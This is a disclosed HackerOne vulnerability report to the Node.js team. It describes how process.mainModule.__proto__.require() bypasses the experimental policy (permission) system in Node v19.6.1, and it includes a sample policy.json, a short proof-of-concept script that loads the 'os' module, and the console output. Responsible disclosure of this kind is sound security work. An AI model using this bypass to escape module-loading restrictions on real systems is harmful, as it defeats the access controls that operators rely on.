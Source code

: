 # The use of __proto__ in process.mainModule.__proto__.require() bypasses the permission system in Node v19.6.1

## Report Details
- **Report ID**: 1877919
- **URL**: https://hackerone.com/reports/1877919
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-02-17T17:58:20.197Z
- **Disclosed**: 2023-07-20T20:55:30.392Z

## Reporter
- **Username**: haxatron1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
process.mainModule.require() correctly works with permission system in Node v19.6.1. 
But the use of \_\_proto\_\_  in process.mainModule.\_\_proto\_\_.require() can bypass the check.

# Description and STR
Consider the following policy.json:
`````
{
  "resources": {
    "./proc.js": {
      "integrity": true
    }
  }
}
`````
The policy only allows proc.js file to be loaded without any dependencies.

However with the following proc.js
`````
const os = process.mainModule.__proto__.require("os")

console.log(process.version)
console.log(os.version())
`````
We get the output:
`````
└─$ ../node-v19.6.1-linux-x64/bin/node --experimental-policy=policy.json proc.js
v19.6.1
#1 SMP PREEMPT Debian 5.16.18-1kali1 (2022-04-01)
(node:2720) ExperimentalWarning: Policies are experimental.
(Use `node --trace-warnings ...` to show where the warning was created)
`````
Therefore os dependency can be loaded and os.version executed even if unspecified in permission system.

## Impact

Bypass the permission system

## Attachments
No attachments
